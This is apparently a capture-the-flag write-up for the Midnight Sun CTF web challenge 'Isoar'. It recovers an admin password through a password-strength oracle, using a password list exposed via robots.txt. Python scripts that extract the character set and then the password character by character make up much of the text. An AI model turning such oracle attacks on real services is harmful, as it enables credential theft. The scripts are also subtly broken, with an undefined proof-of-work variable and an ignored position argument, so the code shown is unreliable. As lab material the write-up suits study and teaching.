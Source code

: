 # Isoar(Web, 31 solves, 150pts)


We start off with a url to the website: http://web.midnightsunctf.se:8000
The webapp allows us to check our passwords strength and receive a random fact about the supplied password:

```
"The given password occurs as part of 10 out of 1001 known passwords"
"The given password has 0 lowercase characters"
"The given password has the same amount of uppercase characters as 997 out of 1001 known passwords"
"The given password is shorter than 399 out of 1001 known passwords"
"The given password is longer than 155 out of 1001 known passwords"
"The first character of the given password occurs in 137 out of 1001 known passwords"
"The third character of the given password occurs in 83 out of 1001 known passwords"
"2 out of 1001 known passwords are suffixed with the given password"
"The given password has 6 characters"
"The given password has 6 digits"
"The fifth character of the given password occurs in 53 out of 1001 known passwords" 
```



`http://web.midnightsunctf.se:8000/robots.txt` has an interesting entry: `Disallow: /static/public.password.list`


[public.password.list](public.password.list) contains a list of 1000 common passwords while the messages mention 100**1** passwords, perhaps the admins password is included in the analysis but not the list?


The most interesting response type is `"2 out of 1001 known passwords are suffixed with the given password"`. Using that, we can try a bunch of suffixes and by calculating our version of the output (we do have 1000 out of the 1001 passwords) we're able to tell if admins password is included in their output or not.

That is actually enough to just brute-force the password char by char, but as it turns out that is **super** slow, mainy because:

 * We have to calculate a 2 byte proof of work for each request
 * The output message type is also randomized so we have to try a bunch of them before getting the correct one

// PS: You might think that we could bypass the poc by sending the same poc output and try to get the correct message type but it seems the message type actually depended on the poc output


What we're gonna need is a charset.

Another type of an interesting response is `"The fifth character of the given password occurs in 53 out of 1001 known passwords"` it tells us in how many passwords a certain letter from our supplied password occurs.

We can throw against it a lot of random passwords and build the admins password charset using the same technique as with the suffixes.

Putting all of this together, we get:

A boilerplate with required primitives:

``` python
import requests
from hashlib import sha256
import random
import string
import json
import re


alph = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
def password_poc(password):
	while True:
		poc = ''.join([random.choice(alph) for x in range(10)])
		if sha256(password+poc).hexdigest().startswith('1337'):
			return poc

def check_password(password):
	url = "http://web.midnightsunctf.se:8000/pwmeter/%s/%s" % (password, poc)
	r = requests.get(url)
	return r.content


with open('public.password.list') as f:
	passwords = f.read().split('\n')


def count_words(position, letter):
	s = filter(lambda x: letter in x, passwords)
	return len(s)

translate_pos = {'first':0, 'second':1, 'third':2, 'fourth':3, 'fifth':4}
```



Script to scrap the charset

``` python

CHARSET = ""

while True:
	rand_input = ''.join([random.choice(alph) for x in range(random.randint(1, 16))])
	reg = r"The (.*) character of the given password occurs in (.*) out of 1001 known passwords"
	
	response = json.loads(check_password(rand_input))["analysis"]

	re_found = re.findall(reg, response)
	if re_found:
		position, number = re_found[0]
		number = int(number)

		letter = None
		pos = None

		if position == 'last':
			letter = rand_input[-1]
			pos = len(rand_input)-1
		else:
			pos = translate_pos[position]
			letter = rand_input[pos]

		my_count = count_words(pos, letter)

		if my_count != number:
			print(letter)
			if letter not in CHARSET:
				CHARSET += letter
				print(CHARSET)
```


Script to finally find the password

``` python
def count_word_suffix(suffix):
	s = filter(lambda x:x.endswith(suffix), passwords)
	return len(s)


final_password = ""

while True:
	#                    found charset
	for letter_addon in 'lryHws3od0P4':
		print(letter_addon)
		rand_input = letter_addon + final_password
		
		found = False
		while True:

			reg = r"(.*) out of 1001 known passwords are suffixed with the given password"

			r = re.findall(reg, json.loads(check_password(rand_input))['analysis'])

			if r:
				their_count = int(r[0])
				my_count = count_word_suffix(rand_input)

				if their_count != my_count:
					print(their_count, my_count, rand_input)
					final_password = letter_addon + final_password
					print(final_password)
					found=True
				else:
					print("no")

				break
		if found:
			break
```

Running all of this finally gave us the password:`H3rHolyP4ssw0rd`
And the flag: `midnight{Someone_didnt_bother_reading_my_carefully_prepared_memo_on_commonly_used_passwords}`


